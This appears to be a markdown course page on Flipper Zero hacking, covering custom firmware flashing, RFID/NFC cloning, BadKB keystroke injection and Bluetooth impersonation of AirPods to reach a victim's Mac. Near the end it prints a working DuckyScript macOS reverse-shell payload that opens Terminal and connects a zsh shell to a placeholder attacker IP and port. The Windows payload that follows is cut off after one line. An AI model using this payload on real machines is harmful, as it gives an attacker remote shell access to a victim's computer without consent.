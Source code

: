 ![](../Assets/ZTW_Logos_Text_only_light_wo_TL_500x185.png)

# Flipper Zero Unleashed

Welcome to the Flipper Zero Unleashed course. This class holds everything from
an intro to intermediate level content.

# Guide

The following will be covered in this course:

* Introduction to Flipper Zero
* Jail Breaking a Flipper Zero
* RFID Hacking
* Bad Bluetooth (BadKB)
* Bluetooth Impersonation Attacks

## Introduction to Flipper Zero

A Flipper Zero is a versatile and programmable multi tool that is commonly used
for hacking. It's a handheld device equipped with various features that allow
users to explore and understand different aspects of cybersecurity.

Here's a breakdown of its key features:

1. **RFID/NFC Emulation:** The Flipper Zero can emulate RFID and NFC cards,
   allowing users to interact with contactless systems and understand their
   vulnerabilities.
2. **Bluetooth Hacking:** It has capabilities to analyze and manipulate
   Bluetooth signals, making it a useful tool for learning about wireless
   security protocols.
3. **Infrared Control:** With infrared capabilities, the Flipper Zero can be
   used for tasks like controlling TVs and other devices that use infrared
   communication.
4. **Tamagotchi-Like Interface:** The device has a playful tamagotchi-like
   interface, making it more engaging for users while they learn about hacking
   and security.
5. **Open-Source and Customizable:** One of the notable aspects is that it's
   open-source, meaning users can modify and customize the software to suit their
   needs. This makes it a great tool for learning programming, cybersecurity, and
   ethical hacking.

## Jail Breaking a Flipper Zero

Jail Breaking a Flipper otherwise known as Flashing a Flipper typically refers
to the process of loading or updating the firmware on the device. Firmware is
the software that runs on embedded systems. Flashing is necessary when you want
to install new features to extend your hacking abilities.

You may be asking how do I flash firmware onto my Flipper, is it easy?

My answer to this yes it easy, if you use the Web Updater. Many GitHub
repositories provide instant links to the web updater to install their firmware.
Once you click these links all you have to do is plug in your flipper to your
machine and click `Update`.

### GitHub Repositories:

> Below are the GitHub Repositories for the two most common Flipper Firmware's

* Unleashed: [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* Extreme: [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)

### Web Updater:

> Below are Direct Links to the Flipper Labs Web Updater

* Unleashed: [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw/unlshd-069/flipper-z-f7-update-unlshd-069.tgz&channel=release-cfw&version=unlshd-069)
* Extreme: [Xtreme Web Updater](https://flipper-xtre.me/update/)

### Resources:

> Below is further Resources that might help you if your struggling to install firmware on your Flipper

* Ultimate Guide: [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)

## NFC/RFID Hacking

The Flipper Zero is great for Hacking RFID and NFC cards or tags. To access
these navigate to the "Apps" section on your device.

It has the following Capabilities:

* **Sniffing/Reading:** The Flipper can read most cards/tags
* **Writing** The Flipper can write to other cards/tags
* **Emulate** The Flipper can emulate a signal it has previously read and stored

  ## How to Clone Emulate NFC

> Disclaimer: Always be aware of the type of card or tag you are trying to hack with the
> Flipper, this helps you understand what module you need to use to actually be
> able to read it. For example, if you have an iClass card you don't want to be
> using the Mifare NFC Module.

## Bad Bluetooth (BadKB)

I always tell others that Bad Bluetooth is basically a wireless rubber ducky
attack. If you don't know what a rubber ducky is then that's ok. Bad KB and Rubber
Duckies allows you to emulate a keyboard and send pre-programmed key strokes to
any device you are connected to. In this case of a rubber ducky you must plug it
into a computer as it looks like a "USB" device. But in this case The Flipper
must connect over Bluetooth to the victims device to launch the attack.

## Bluetooth Impersonation Attacks

Our team recently gained recognition on TheHackerNews for uncovering a Bluetooth
and macOS vulnerability. This exploit enabled us to mimic a Bluetooth device,
such as AirPods or an iPhone, using a Flipper Zero. By impersonating the MAC
Address, we could intercept or establish an initial connection with a victim's
machine. The success of this approach relied on the machine itself trusting us
as the legitimate AirPods or Bluetooth device of choice for the victim. Once the
initial connection was established, our Flippers could then function as
`HID Devices` (Keyboards) with the `Bad Bluetooth` (`BadKB`) module. This capability
allowed us to send malicious keystrokes, ultimately granting us reverse shell
access to the targeted machine.

* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **Reverse Shell Payloads:**
  * macOS:[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)

    ```bat
    REM --- MACOS REVERSE SHELL ---
    DEFAULT_DELAY 14
    DELAY 1000
    GUI SPACE
    DELAY 500
    STRING terminal
    DELAY 500
    ENTER
    DELAY 1000
    STRING zsh -c 'zmodload zsh/net/tcp && ztcp <IP-HERE> <PORT-HERE> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY' & curl parrot.live
    DELAY 500
    ENTER
    ```

  * Windows: [ZTW/Payloads (github.com)](windows-revershell-payload.txt)

    ```bat
    REM --- WINDOWS REVERSE SHELL ---
    GUI r
    ```
# Reference Links 
* **Unleashed Web Updater Version unlshd0.69:** [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw/unlshd-069/flipper-z-f7-update-unlshd-069.tgz&channel=release-cfw&version=unlshd-069)
* **Extreme Web Updater: [Xtreme Web Updater](https://flipper-xtre.me/update/)
* **Unleashed Github:** [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* **Extreme Github:** [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)
* **Ultimate Guide For New Flipper Owners:** [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)
* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
